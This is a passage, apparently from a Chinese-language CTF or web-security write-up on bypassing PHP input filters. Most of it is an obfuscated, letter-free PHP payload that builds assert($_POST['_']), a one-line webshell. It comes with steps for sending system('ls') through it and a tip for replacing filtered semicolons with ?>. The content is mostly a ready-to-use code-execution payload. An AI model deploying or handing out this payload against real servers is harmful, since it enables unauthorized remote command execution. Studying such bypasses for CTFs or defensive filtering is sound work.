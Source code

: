 ```php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = '_';$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__ = $$____;$_($__[_]);
最终POC，然后再post提交_=system('ls');即可，加号会被编码，所以要用urlencode进行编码一下
```



## 分号被过滤

分号被过滤可以使用?>来替代
